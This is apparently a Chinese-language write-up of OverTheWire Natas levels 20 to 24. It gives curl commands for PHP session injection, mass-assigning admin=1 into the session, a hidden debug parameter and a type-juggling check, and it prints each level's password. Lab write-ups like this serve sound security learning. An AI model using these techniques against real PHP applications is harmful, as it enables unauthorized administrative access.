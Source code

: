 由于服务端对sessionID进行了合法性校验，因此无法直接通过修改PHPSESSID来读取密码文件的信息
但username没有任何校验，因此可以在其中注入\nadmin 1使读取的时候对Session进行间接篡改

```
curl -isu natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF http://natas20.natas.labs.overthewire.org -d "name=head > admin 1"
```

IFekPyrQXftziDEsUr3x21sYuahypdgJ

## 22.

```
session_start();
print_credentials();
```

```
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

```
curl -isu natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21-experimenter.natas.labs.overthewire.org -d "submit=update" -d "admin=1"
```

得PHPSESSID=ia4mr6isorpqdhltm0nli58or1

同上一题得

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

23. 

```
curl -isu natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org?revelio=1
```

```
You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

24. 一要求提交的参数中含有iloveyou，二要求它大于10.考验的是php的字符串向数字的转换规则，即截取最前几个数字，舍去不符合格式的部分。

```
if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
```
